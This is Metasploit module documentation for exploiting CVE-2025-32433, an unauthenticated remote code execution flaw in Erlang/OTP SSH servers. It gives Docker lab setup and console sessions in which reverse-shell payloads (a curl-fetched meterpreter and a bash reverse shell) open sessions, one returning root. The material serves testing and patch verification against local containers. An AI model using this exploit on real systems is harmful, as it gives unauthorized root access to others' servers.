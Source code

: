 ## Vulnerable Application

Erlang/OTP is a set of libraries for the Erlang programming language.

Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker
to perform unauthenticated remote code execution (RCE).

By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access
to affected systems and execute arbitrary commands without valid credentials. This issue is patched in
versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20.

### Introduction

This module detect and exploits CVE-2025-32433, a pre-authentication vulnerability in Erlang-based SSH
servers that allows remote command execution. By sending crafted SSH packets, it executes a payload to
establish a reverse shell on the target system.

The exploit leverages a flaw in the SSH protocol handling to execute commands via the Erlang `os:cmd`
function without requiring authentication.

## Testing

### Vulnerable application

Execute the following commands:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
docker build -t cve-ssh:latest .
docker run -d -p 2222:2222 cve-ssh:latest
```

### Patched application

Execute the following commands:

```bash
git clone https://github.com/exa-offsec/ssh_erlangotp_rce
cd ssh_erlangotp_rce/patched
docker build -t patched-ssh:latest .
docker run -d -p 2223:2223 patched-ssh:latest
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/ssh/ssh_erlangotp_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios

### Using linux commands (Target 0)

Use the linux commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   RHOSTS     192.168.0.1          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      2222                 yes       The target port (TCP)
   SSH_IDENT  SSH-2.0-OpenSSH_8.9  yes       SSH client identification string sent to the server

Payload options (cmd/linux/https/x64/meterpreter/reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS    false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             192.168.0.1      yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port

   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      tVzpeXtmX        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces

Exploit target:

   Id  Name
   --  ----
   0   Linux Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.0.1:4444 
[*] 192.168.0.1:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.0.1:2222 - Starting scanner for CVE-2025-32433
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - The target is vulnerable.
[*] 192.168.0.1:2222 - Starting exploit for CVE-2025-32433
[+] 192.168.0.1:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - Payload sent successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> 172.17.0.2:35770) at 2025-04-27 20:23:02 +0400

meterpreter > 
```

### Using unix commands (Target 1)

Use the unix commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   RHOSTS     192.168.0.1          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      2222                 yes       The target port (TCP)
   SSH_IDENT  SSH-2.0-OpenSSH_8.9  yes       SSH client identification string sent to the server

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Unix Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 192.168.0.1:4444 
[*] 192.168.0.1:2222 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.0.1:2222 - Starting scanner for CVE-2025-32433
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - The target is vulnerable.
[*] 192.168.0.1:2222 - Starting exploit for CVE-2025-32433
[+] 192.168.0.1:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 192.168.0.1:2222 - Sending SSH_MSG_KEXINIT...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 192.168.0.1:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 192.168.0.1:2222 - Payload sent successfully
[*] Command shell session 1 opened (192.168.0.1:4444 -> 172.17.0.2:59042) at 2025-04-27 20:24:41 +0400

whoami
root
```

## References

1. <https://x.com/Horizon3Attack/status/1912945580902334793>
2. <https://platformsecurity.com/blog/CVE-2025-32433-poc>
3. <https://github.com/ProDefense/CVE-2025-32433>
